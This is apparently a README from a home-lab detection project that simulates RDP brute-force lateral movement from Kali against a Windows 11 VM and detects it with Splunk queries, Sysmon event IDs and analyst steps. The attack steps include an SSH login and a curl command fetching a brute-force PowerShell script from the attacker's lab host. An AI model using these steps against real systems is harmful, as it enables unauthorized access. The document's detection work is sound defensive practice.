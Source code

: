 

# Detection Usecase 2 : Lateral Movement via Brute Force


# Scenario Summary: 
An Attacker has tried to logged in into the System by using credentials of a user and by that machine,  
attacker Brute Force other system on the network through RDP using a PowerShell Scripts.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh low@192.168.0.103
```  
```
curl http://192.168.0.106/RDP.ps1
```
2) Then executed the script to Brute Force other system.    
[To See the ps1 file ](scripts/RDP.ps1)

*******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH 
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |

# Detection Query / Logic:
```spl 
- Search - Finding N/W Connection through mstsc.exe
index=* EventCode=3 mstsc.exe | stats count by SourceIp, DestinationIp, EventCode
```
```spl 
- Search - Command Execution using Powershell 
index=* EventCode=1 mstsc.exe OR cmdkey.exe | stats count by host, EventCode, OriginalFileName, CommandLine
```

# Sample Alert Screenshot

1) User has logged in.  

![log in](<logs/Screenshot 2025-06-04 152041.png>)  
![login2](<logs/Screenshot 2025-06-04 153141.png>)

2) Then there was a Network Connection Detected to same IP and immediately a file was created.  

![file](<logs/Screenshot 2025-06-04 153716.png>)

3) After the file execution there was many request going to a known IP by the 'low' user using 'mstsc.exe'.  

![outbound](<logs/Screenshot 2025-06-04 153041.png>)

4) Many command were executed using 'cmdkey.exe'.  

![cmdkey](<logs/Screenshot 2025-06-04 152805.png>)

5) Also in the victim machine traffic are been captured coming to it via RDP.  

![wireshark](<logs/Screenshot 2025-06-04 151350.png>)

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> Confirm the Detection - Verify logs and see the indicators(e.g., Cmd-Line, mstsc.exe)(e.g.,Event ID : 4625(unsuccessful login), 11(File Creation), 1(Process Creation/Command Execution)), try to correlate it with unexpected login.  
-> Contain the Threat - Isolate the system and stop any malicious runinng processes and disable the user account involved in the attack.  
-> Delete any downloaded files, check for scheduled tasks or any persistence mechanism.  
-> Collect the Evidence.  
-> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  

